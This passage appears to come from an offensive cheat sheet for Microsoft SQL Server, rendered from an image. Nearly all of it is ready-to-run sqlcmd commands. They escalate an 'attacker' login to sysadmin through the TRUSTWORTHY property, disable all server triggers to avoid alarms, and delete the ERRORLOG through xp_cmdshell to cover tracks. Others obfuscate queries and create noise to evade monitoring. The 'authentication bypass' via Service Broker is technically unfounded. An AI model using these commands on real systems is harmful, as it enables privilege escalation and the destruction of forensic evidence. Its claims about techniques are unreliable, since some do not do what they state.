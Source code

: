 - **Escalate Privileges via Trustworthy Database Property**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -d <database> -Q "ALTER DATABASE <database> SET TRUSTWORTHY ON;"
  sqlcmd -S <target_ip> -U <username> -P <password> -d <database> -Q "CREATE PROCEDURE escalate_privs AS EXECUTE AS LOGIN = 'sa'; EXEC sp_addsrvrolemember 'attacker', 'sysadmin';"
  sqlcmd -S <target_ip> -U <username> -P <password> -d <database> -Q "EXEC escalate_privs;"
  ```
  Use the `TRUSTWORTHY` database property to escalate privileges within SQL Server.

## 21. Anti-Forensics and Defense Evasion

### 21.1 Obfuscating SQL Server Queries
- **Using Dynamic SQL for Obfuscation**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "DECLARE @cmd NVARCHAR(4000); SET @cmd = N'SELECT * FROM sensitive_table WHERE id = 1;'; EXEC sp_executesql @cmd;"
  ```
  Obfuscate queries by using dynamic SQL to evade detection by security monitoring systems.

### 21.2 Disabling Triggers and Constraints for Data Tampering
- **Disabling Triggers**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "DISABLE TRIGGER ALL ON ALL SERVER;"
  ```
  Temporarily disable triggers to prevent logging or execution of actions

 that might raise alarms.

### 21.3 Deleting SQL Server Logs Programmatically
- **Deleting Specific Logs**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'del C:\\Program Files\\Microsoft SQL Server\\MSSQL14.MSSQLSERVER\\MSSQL\\Log\\ERRORLOG';"
  ```
  Programmatically delete specific logs to cover tracks.

### 21.4 Manipulating SQL Server Wait Events
- **Simulating Wait Events to Create Noise**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "WAITFOR DELAY '00:00:05';"
  ```
  Simulate wait events to create noise and obscure true actions from monitoring tools.

## 23. SQL Server Security Bypass Techniques

### 23.1 Bypassing Authentication via SQL Server Broker
- **Hijacking SQL Server Service Broker**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "CREATE SERVICE [MaliciousService] ON QUEUE [dbo].[maliciousQueue] ([http://schemas.microsoft.com/SQL/ServiceBroker/DialogTimer]);"
  ```
  Bypass authentication by hijacking the SQL Server Service Broker for internal communication.
